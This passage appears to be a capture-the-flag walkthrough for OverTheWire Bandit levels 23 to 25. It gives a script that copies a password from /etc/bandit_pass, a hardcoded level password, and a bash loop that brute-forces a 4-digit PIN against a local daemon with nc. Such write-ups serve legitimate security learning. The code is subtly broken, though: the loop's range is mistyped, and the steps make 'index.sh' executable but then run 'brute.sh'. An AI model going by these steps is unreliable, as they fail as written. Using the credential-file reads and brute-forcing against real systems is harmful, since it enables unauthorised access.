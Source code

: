 `nano getpass.sh`

```
#!/bin/bash

touch /tmp/t0nberry2/bandit24
cat /etc/bandit_pass/bandit24 > /tmp/t0nberry2/bandit24

```

`chmod +x getpass.sh`
`cat /tmp/t0nberry2/bandit24`

Highlight and copy the returned password 

Break the ssh connection by typing `logout` or hitting `Ctrl + d`

Enter `nano bandit1`, paste the copied password, save & exit (`Ctrl + x`, `y`, `enter`)

---

Bandit 24 --> 25 (https://overthewire.org/wargames/bandit/bandit25.html)

```Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```

Arrow up to get to retrieve your previously entered sshpass command and increment bandit by one.  Connect to the ssh server.

`cat /etc/bandit_pass/bandit24`

`nc localhost 30002`

`mkdir /tmp/t0nberry3`

`cd /tmp/t0nberry3`

```
#!/bin/bash

for i in {000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" $i >> combinations.txt
done
```

`chmod +x index.sh`
`./brute.sh`
`cat combinations.txt | nc localhost 30002 >> result.txt`
`sort result.txt | uniq -u`

Highlight and copy the returned password 

Break the ssh connection by typing `logout` or hitting `Ctrl + d`

Enter `nano bandit1`, paste the copied password, save & exit (`Ctrl + x`, `y`, `enter`)

---
